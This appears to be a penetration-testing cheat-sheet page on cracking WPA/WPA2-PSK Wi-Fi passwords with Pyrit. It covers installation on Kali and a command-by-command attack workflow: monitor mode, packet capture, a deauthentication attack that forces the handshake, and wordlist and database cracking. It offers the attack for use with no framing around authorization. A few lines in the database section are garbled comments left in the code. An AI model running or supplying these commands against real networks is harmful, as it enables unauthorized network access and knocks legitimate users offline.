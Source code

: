 # Pyrit Attack (WPA/WPA2)

A GPGPU-driven WPA/WPA2-PSK key cracker

Pyrit exploits the computational power of many-core- and GPGPU-platforms to create massive databases, pre-computing part of the WPA/WPA2-PSK authentication phase in a space-time tradeoff. It is a powerful attack against one of the world's most used security-protocols

## Installation

Pyrit is no longer installed on Kali by default. Also `apt install pyrit -y` does not work. Pyrit still uses Python2. One must do all of this to work:

```bash
cd
sudo apt update -y
sudo apt install git python2-dev libssl-dev libpcap-dev -y
git clone https://github.com/JPaulMora/Pyrit.git --depth=1
sed -i "s/COMPILE_AESNI/COMPILE_AESNIX/" Pyrit/cpyrit/_cpyrit_cpu.c
cd Pyrit
python2 setup.py clean
python2 setup.py build
sudo python2 setup.py install
wget https://codeload.github.com/secdev/scapy/zip/v2.3.2 -O /tmp/scapy.zip
cd /tmp
unzip scapy.zip
cd scapy-2.3.2
sudo python2 ./setup.py install
cd ..
pyrit -h
pyrit list_cores
```

## Commands

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $INTERFACE

# Start monitoring to collect data
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap $INTERFACE

# [Terminal Two]
# Run the deauthentication attack to get four-way handshake
sudo aireplay-ng --deauth 1 -a $BSSID -c $CLIENT $INTERFACE

# Wait for the four-way handshake to appear in airodump-ng window.

# Stop airodump-ng when it appears
qq
```
## Check Fourway Handshake

```bash
pyrit -r $PCAP analyze
```
![pyrit check](../../images/pyrit-check.png)

## Strip Unneeded Data

```bash
pyrit -r $PCAP -o $TAG-stripped.cap strip
```
![pyrit check](../../images/pyrit-strip.png)

## Using a Wordlist

```bash
# Unstripped
pyrit -r $PCAP -i $WORDLIST -b $BSSID attack_passthrough
# OR Stripped
pyrit -r $TAG-stripped.cap -i $WORDLIST -b $BSSID attack_passthrough
```
![pyrit check](../../images/pyrit-crack.png)

## Using a Database

```bash
# Crack the secret in database mode
pyrit -i $WORDLIST import_passwords
password in pyrit with database mode
pyrit -e <ESSID> create_essid
point to the pyrit database
pyrit batch
pyrit -r $CAPTURE -b $BSSID attack_db
```

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [GoLinuxCloud Install on Kali](https://www.golinuxcloud.com/install-pyrit-in-kali-linux/)
* [Pyrit GitHub](https://github.com/JPaulMora/Pyrit)
* [Null Byte](https://null-byte.wonderhowto.com/how-to/crack-wpa-wpa2-wi-fi-passwords-with-pyrit-0196782/)
